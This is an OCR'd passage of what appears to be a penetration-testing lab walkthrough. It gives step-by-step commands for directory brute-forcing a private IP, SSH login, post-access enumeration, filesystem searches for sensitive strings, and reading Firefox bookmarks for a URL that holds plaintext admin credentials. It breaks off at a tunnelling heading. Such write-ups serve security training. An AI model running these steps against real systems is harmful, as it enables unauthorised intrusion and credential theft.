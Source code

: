 * **Directory Brute-force**:

```bash
dirsearch -u http://192.168.80.10 -w /home/miquela/wordlist/big.txt
feroxbuster -u http://192.168.80.10 -w /home/miquela/wordlist/medium.txt
gobuster dir -u http://192.168.80.10 -w /home/miquela/wordlist/big.txt
```

Goal: find sensitive info such as admin credentials.

### 3. Log into Web Server via SSH

```bash
ssh privilege@192.168.80.10
```

### 4. Post-Access Enumeration

```bash
whoami
hostname
id
sudo -l
sudo id
```

### 5. Check Network Info

```bash
ifconfig
ip a
ip r
route -n
netstat
```

### 6. Searching for Sensitive Files

```bash
sudo grep -Rni "free string" / 2>/dev/null
grep -Ril "free string" / 2>/dev/null
find / -type f -iname "free_string" 2>/dev/null
```

Example: `places.sqlite`

```bash
cd ~/.mozilla/firefox/<profile-folder>
sqlite3 places.sqlite
.tables
select * from moz_bookmarks;
```

Found link: `http://192.168.98.30/admin/index.php?user=john@child.warfare.corp&pass=User1@#$%6`

### 7. Set Up Tunnel Using Ligolo-ng
